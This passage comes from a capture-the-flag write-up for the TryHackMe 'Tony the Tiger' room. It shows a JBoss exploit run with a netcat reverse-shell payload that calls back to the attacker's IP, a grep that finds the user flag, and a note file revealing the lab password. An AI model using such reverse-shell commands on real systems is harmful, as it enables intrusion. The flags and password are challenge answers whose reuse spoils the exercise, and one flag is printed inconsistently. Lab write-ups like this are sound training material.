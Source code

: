 1. I have obtained a shell.

```
bibo318@parrot:~/CTFs/tryhackme/Tony the Tiger/jboss$ python exploit.py 10.10.179.44:8080 "nc -e /bin/bash 10.8.106.222 9001"
[*] Target IP: 10.10.179.44
[*] Target PORT: 8080
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Command executed successfully
```

## Task 6 Find User JBoss' flag!

Knowledge of the Linux (specifically Ubuntu/Debian)'s file system structure & permissions is expected. If you are struggling, I strongly advise checking out the fantastic [TryHackMe ZTHLinux Room](http://tryhackme.com/room/zthlinux) by [lollava](http://tryhackme.com/p/lollava).

1. This flag has the formatting of "THM{V0N318*****}"

```
pwd
/
cd /home
grep -R "THM{V0N318*****" * 2>/dev/null
jboss/.jboss.txt:THM{V0N318*****50c10ad46b5793704601ecdad865eb06}
jboss/.bash_history:echo "THM{V0N318*****50c10ad46b5793704601ecdad865eb06}" > jboss.txt
```

`THM{V0N318*****50c10ad46b5793704601ecdad865eb0612**123:))}`

## Task 7 Escalation!

Normal boot-to-root expectations apply here! It is located in /root/root.txt. Get cracking :)

1. The final flag does not have the formatting of "THM{V0N318*****}"

```
cd jboss
pwd
/home/jboss
ls
note
cat note
Hey JBoss!

Following your email, I have tried to replicate the issues you were having with the system.

However, I don't know what commands you executed - is there any file where this history is stored that I can access?

Oh! I almost forgot... I have reset your password as requested (make sure not to tell it to anyone!)

Password: likeaboss

Kind Regards,
CMNatic
```
